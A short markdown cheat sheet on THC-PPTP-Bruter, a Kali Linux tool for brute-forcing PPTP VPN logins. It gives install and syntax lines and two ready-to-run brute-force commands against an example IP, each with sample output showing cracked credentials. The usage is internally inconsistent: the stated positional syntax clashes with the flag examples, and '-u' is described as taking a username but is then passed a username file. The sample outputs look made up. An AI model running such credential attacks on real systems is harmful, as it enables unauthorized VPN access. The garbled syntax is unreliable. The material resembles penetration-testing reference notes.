 # thc-pptp-bruter
**THC-PPTP-Bruter** is a tool used for brute-forcing the credentials of PPTP (Point-to-Point Tunneling Protocol) VPNs. It is included in Kali Linux and is useful for testing the strength of passwords used in PPTP VPNs.

### Installation

THC-PPTP-Bruter is typically pre-installed in Kali Linux. If not, you can install it using:

```bash
sudo apt install thc-pptp-bruter
```

### Basic Syntax

The basic syntax for using THC-PPTP-Bruter is:

```bash
thc-pptp-bruter <target_ip> <username> <password_list>
```

### Common Options

- **-u, --user**: Specify the username.
- **-f, --file**: Specify the password list file.
- **-h, --help**: Display help information.

### Usage Examples

#### 1. Brute-forcing PPTP Login

To perform a brute-force attack on a PPTP VPN, you can use:

```bash
thc-pptp-bruter -u username -f /path/to/passwords.txt 192.168.1.100
```

**Expected Output:**

```
Trying password: password123
Success: username:password123
```

This output indicates that the tool successfully found the credentials for the specified username.

#### 2. Using a List of Users and Passwords

If you have a list of usernames and passwords, you can specify them accordingly:

```bash
thc-pptp-bruter -f /path/to/passwords.txt -u /path/to/usernames.txt 192.168.1.100
```

**Expected Output:**

```
Trying user: admin with password: admin123
Success: admin:admin123
```
